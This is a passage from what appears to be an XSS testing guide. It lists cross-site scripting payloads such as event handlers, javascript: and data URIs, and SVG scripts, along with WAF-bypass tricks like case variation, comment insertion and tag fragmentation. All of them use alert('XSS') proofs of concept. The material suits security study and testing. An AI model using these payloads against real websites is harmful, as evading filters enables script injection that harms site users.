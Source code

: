 #### Alternative Event Handlers
```html
<!-- Mouse events -->
<div onmouseover="alert('XSS')">Hover me</div>

<!-- Keyboard events -->
<input onkeydown="alert('XSS')" autofocus>

<!-- Form events -->
<form onsubmit="alert('XSS')"><input type="submit"></form>

<!-- Media events -->
<audio src=x onerror="alert('XSS')">
<video src=x onerror="alert('XSS')">
```

#### JavaScript Alternatives
```html
<!-- JavaScript pseudo-protocol -->
<a href="javascript:alert('XSS')">Click me</a>

<!-- Data URI -->
<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>

<!-- SVG JavaScript -->
<svg><script>alert('XSS')</script></svg>
```

### 7.2 WAF Bypass Techniques

#### Case Variation
```html
<ScRiPt>alert('XSS')</ScRiPt>
<SCRIPT>alert('XSS')</SCRIPT>
```

#### Whitespace and Comments
```html
<script /*comment*/>alert('XSS')</script>
<script
>alert('XSS')</script>
```

#### Tag Fragmentation
```html
<scr<script>ipt>alert('XSS')</script>
<img src="x" onerror="a=`aler`;b=`t`;c='XSS';(window[a+b])(c)">
```

## 🔧 Testing with Tools

### 8.1 Browser Developer Tools
